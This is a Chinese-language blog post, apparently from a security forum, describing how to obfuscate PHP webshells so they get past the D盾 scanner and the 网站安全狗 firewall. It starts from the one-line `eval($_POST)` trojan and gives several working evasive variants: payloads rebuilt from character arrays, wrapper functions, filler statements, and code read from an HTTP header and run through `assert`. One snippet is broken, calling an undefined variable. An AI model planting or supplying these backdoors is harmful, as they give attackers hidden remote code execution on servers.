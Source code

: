 前言
--

看到QQ空间很多师傅都在晒某引擎的 webshell 免杀，心里还是有点摩拳擦掌的，但一直没有下定决心去尝试。一方面确实是没有信心，因为真的没有接触过，一方面还是最近很多事情影响了自己的心情，对自我能力有了否定心理。等到我想去试试的时候，引擎已经关了，活动结束了。所以这里只能找一下D盾和安全狗测试了。

bypass
------

这里我下载了最新版的D盾V2.1.6.2（2022-01-05）和网站安全狗V4.0，php版本为 7.4.27  
首先，下面是经典的php一句话木马，当然这百分百会被检测到。

```php
<?php eval($_POST['dotast']);?>
```

这里我们可以看做两个输入变量，一个是函数，一个是参数。我个人认为，免杀webshell是对防护规则的 bypass，所以我们要了解对应的防护软件的规则。首先我们保持函数不变，将变量改为不敏感的字符串，看看`eval`的检测情况

```php
<?php eval("123dotast");?>
```

![](https://shs3.b.qianxin.com/attack_forum/2022/01/attach-1132d8058ca2a3cf33f4716821516f6a7f71ed19.png)  
显然，D盾对于`eval`函数依然能检测到，我们换成其他能够代码执行的函数，这里举例`assert`

> assert()：如果 参数 是字符串，它将会被 assert() 当做 PHP 代码来执行。注意：从php7版本以后不支持动态调用

```php
<?php
    assert("123");
?>
```

![](https://shs3.b.qianxin.com/attack_forum/2022/01/attach-9d44fbe700a6da4980fb23d471a97ff1dcfa7be1.png)  
依然能检测到，不过可以看见，不管是前面的`eval`和`assert`函数，现在级别都是判定为1。这里我们开始把目光转向参数，尝试对参数内容进行处理

> implode(strings $glue, array $pieces)：将一个一维数组的值转化为字符串

```php
<?php
    function dotast(){
        $a = implode("",['p','h','p','i','n','f','o','(',')']);
        assert($a);
    }
    dotast();
?>
```

这里将参数内容分离，然后再重新组合  
![](https://shs3.b.qianxin.com/attack_forum/2022/01/attach-ae13ad795b9e07cbb2df88af13c3aaa84a910bcd.png)  
可以看见虽然还是能检测到，但是和之前的判定有区别，D盾已经无法识别出参数内容。进行到这里的时候，发现了一个有意思的事情，即再前面定义的变量和`assert`函数中间加一下内容，就能 bypass D盾的检测（同时还是因为加了一层自定义函数 dotast 的缘故)

```php
<?php
    function dotast(){
        $a = implode("",['p','h','p','i','n','f','o','(',')']);
        echo "666";
        assert($a);
    }
    dotast();
?>
```

![](https://shs3.b.qianxin.com/attack_forum/2022/01/attach-8d59f127fe6f4600e4172959695cd678e178eed3.png)  
所以，一个简单的 bypass D盾的webshell就出来了

```php
<?php
    function dotast(){
        $a = implode("",["e","v","a","l","(","$","_","P","O","S","T","[","'","a","'","]",")"]);
        assert($a);
    }
    dotast();
?>
```

![](https://shs3.b.qianxin.com/attack_forum/2022/01/attach-a32ee5da13a7f2d026e756b5869feb81b96893c4.png)  
![](https://shs3.b.qianxin.com/attack_forum/2022/01/attach-3188f4cf2f5647e25b52e711b1550087e8b3785c.png)  
网站安全狗也成功绕过（我感觉安全狗的规则比D盾弱很多......）  
![](https://shs3.b.qianxin.com/attack_forum/2022/01/attach-0489fe74c1f3b704e185d8a49157701324ee38c5.png)

接下来，尝试其他姿势，依然是`assert`，这次我们配合其他函数，比如`getallheaders()`从请求头中获取参数内容

> getallheaders()：获取全部 HTTP 请求头信息，返回值为当前请求所有头信息的数组

```php
<?php
    $a = getallheaders();
    $b = $a['Dotast'];
    assert($d);
?>
```

![](https://shs3.b.qianxin.com/attack_forum/2022/01/attach-66dea2836d8b4ed4286fc1826d304fa445e5576d.png)  
检测级别为1，不过对参数内容未知，我们继续加入一些字符串尝试绕过，这里我的想法是添加一些能让D盾识别到的字符串来达到一种“欺骗”的效果

```php
<?php
    $a = getallheaders();
    $b = $a['Dotast'];
    $c = "123";
    $d = "${b}${c}";
    assert($d);
?>
```

![](https://shs3.b.qianxin.com/attack_forum/2022/01/attach-ec3ad97e001bd9d38de19d27d7c20c2256268d4d.png)  
成功绕过D盾的检测

总结
--

这篇文章也只是做一个 webshell 免杀的思路分享，技巧性的东西其实没什么。我觉得 webshell 免杀更多的其实是想法，对于一个waf的规则熟悉之后，就是开拓思路去思考和罗列出哪些利用点。